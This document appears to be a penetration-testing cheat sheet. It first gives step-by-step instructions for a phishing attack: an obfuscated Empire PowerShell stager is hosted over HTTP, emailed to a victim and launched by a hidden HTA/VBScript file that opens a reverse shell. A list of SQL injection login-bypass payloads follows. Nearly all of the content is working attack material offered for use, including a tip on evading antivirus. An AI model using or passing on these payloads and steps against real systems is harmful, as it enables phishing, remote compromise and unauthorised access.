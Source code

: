 1. Create an http listener on Empire
2. Create a stager and toggle "obfuscate" on in order to help bypass any AV.
3. Copy the powershell payload from stager and paste below
4. Run python3 -m http.server 80
5. Send to target via email - they will click on the link and trigger a connection back to your agent

```
<!DOCTYPE html>
<html>
<head>
    <HTA:APPLICATION
        icon="#"
        WINDOWSTATE="minimize"
        SHOWINTASKBAR="no"
        SYSMENU="no"
        CAPTION="no"
    />
    <script language="VBScript">
        Function var_func()
            Dim var_shell
            Set var_shell = CreateObject("Wscript.Shell")
            var_shell.run "ENTER YOUR EMPIRE POWERSHELL REVERSE SHELL PAYLOAD/STAGER HERE", 0, true
        End Function

        var_func
        self.close
    </script>
</head>
<body>
</body>
</html>
```

## SQL Injection Attacks
### SQL Injection Login Bypass
```
Username and password fields example:
admin:admin' or 1=1--
admin' or '1'='1:some_password

Inject into username or password fields:
admin' or 1=1#
admin' or 1=1-- -
' or '1'='1
admin' --
admin' #
' or 1=1 --
' or 'a'='a
' or 'true
') or ('1'='1
' or ''='
admin') --
') or ('x'='x
' or 1-- -
admin' OR '1'='1' -- -
admin') OR ('1'='1' -- -
admin' OR 'a'='a' -- -
' UNION SELECT 1, 'user', 'password' -- -
admin' OR SLEEP(5) -- -
' OR EXISTS(SELECT 1 FROM users WHERE username='admin')-- -
a' or 'b'='b
a' or 'b' LIKE 'b
```